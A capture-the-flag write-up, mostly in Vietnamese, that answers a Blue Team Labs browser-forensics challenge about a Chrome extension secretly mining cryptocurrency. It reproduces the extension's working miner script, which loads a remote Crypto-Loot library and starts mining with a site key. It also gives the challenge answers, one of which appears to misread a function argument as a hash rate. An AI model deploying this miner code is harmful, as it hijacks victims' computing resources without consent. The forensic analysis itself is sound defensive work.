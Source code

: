 ## Description
> Our SOC alerted that there is some traffic related to crypto mining from a PC that was just joined to the network. The incident response team acted immediately, observed that the traffic is originating from browser applications. After collecting all key browser data using FTK Imager, it is your job to use the ad1 file to investigate the crypto mining activity.
## Link challenge
> https://blueteamlabs.online/home/challenge/browser-forensics-cryptominer-aa00f593cb
## Solution
- Để phân tích được tệp ad1, ta sử dụng công cụ ftkimage
- ***How many browser-profiles are present in Google Chrome?***
- Các profile chrome được lưu tại 
- ![image](image/1.PNG)
- ![image](image/2.PNG)
- Có thể thấy ở đây có 2 profile 
> A : 2

- ***What is the name of the browser theme installed on Google Chrome?***
- ***What is the description text of this extension?***
- Để tìm được thư mục chứa các theme  ta bắt đầu tìm kiếm trên internet và tìm được [nguồn này](https://superuser.com/questions/86672/is-there-a-way-to-find-the-name-of-the-current-theme-in-google-chrome)
- ![image](image/3.PNG)
- Copy id và tìm trên internet thì tìm được đường dẫn [này](https://www.crx4chrome.com/themes/iiihlpikmpijdopbaegjibndhpgjmjfe/)
- ![image](image/4.PNG)
> A : Earth in Space

- ***Identify the Extension ID and Extension Name of the cryptominer***
- Tương tự như theme mình tìm tại folder extension 
- ![image](image/5.PNG)
- Tìm được 1 id extension `egnfmleidkolminhjlkaomjefheafbbb` và có mô tả `Allows staff members to mine cryptocurrency in the background of their web browser` kèm tên `DFP Cryptocurrency Miner` tại file `manifest.json`

> A: egnfmleidkolminhjlkaomjefheafbbb, DFP Cryptocurrency Miner
> A: Allows staff members to mine cryptocurrency in the background of their web browser

- ***What is the name of the specific javascript web miner used in the browser extension?***
- Đây là src của file js

```
<script src="https://crypto-loot.com/lib/miner.min.js"></script>
<script>
var miner=new CryptoLoot.Anonymous('b23efb4650150d5bc5b2de6f05267272cada06d985a0',
        {
        threads:3,autoThreads:false,throttle:0.2,
        }
);
miner.start();
</script>
<script>
	// Listen on events
	miner.on('found', function() { /* Hash found */ })
	miner.on('accepted', function() { /* Hash accepted by the pool */ })

	// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond(20);
		var totalHashes = miner.getTotalHashes(256000000);
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
	}, 1000);
</script>
```
> cryptoloot

- ***How many hashes is the crypto miner calculating per second?***
- Theo như src ở trên thấy rằng `		var hashesPerSecond = miner.getHashesPerSecond(20);` có 20 hàm băm được tính mỗi giây
> A : 20

- ***What is the public key associated with this mining activity?***
> A: b23efb4650150d5bc5b2de6f05267272cada06d985a0

- ***What is the URL of the official Twitter page of the javascript web miner?***
> A : twitter.com/CryptoLootMiner